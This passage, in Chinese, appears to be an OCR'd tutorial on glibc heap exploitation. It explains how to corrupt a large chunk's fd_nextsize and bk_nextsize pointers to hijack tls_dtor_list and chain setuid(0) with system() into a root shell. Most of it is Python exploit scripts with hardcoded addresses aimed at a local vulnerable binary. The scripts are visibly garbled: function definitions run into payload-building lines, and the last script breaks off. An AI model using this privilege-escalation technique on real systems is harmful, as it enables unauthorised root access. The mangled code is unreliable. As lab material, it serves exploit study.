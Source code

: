 因此现在攻击者就要按如下的方式覆写掉将被free的large chunk的malloc chunk的元素：
- fd、bk与之前一样
- fd_nextsize指向tls_dtor_list-0x14
- bk_nextsize应该指向包含一个dtor_list的堆地址
同样fd_nextsize指向的地方应该可写也是可以解决的：通过反汇编__call_tls_dtors()可以得到tls_dtor_list属于libc.so中可写的segment，并且可得tls_dtor地址在0xb7fe86d4。
bk_nextsize由于指向堆地址，显然是可写的

下面为获得普通shell代码
``` python
#exp_try.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b430
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
由于bash在uid!=euid时会降低权限。我们运行的程序实际上的uid是1000而不是root的0.因此为了解决这个问题，我们应该在运行system之前再调用一次setuid(0)
又因为__call_tls_dtors()遍历tls_dtor_list，我们只需要将setuid()和system()按顺序连起来就可以获得root shell了
``` python
#gen_file.py
#!/usr/bin/env python
import struct

#dtor_list
setuid = 0x4e123e30
setuid_arg = 0x0
mp = 0x804b020
nxt = 0x804b430

#endianess convertion
def conv(num):
 return struct.pack("<I",num(setuid)
tst += conv(setuid_arg)
tst += conv(mp)
tst += conv(nxt)

print tst
-----------------------------------------------------------------------------------------------------------------------------------
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
```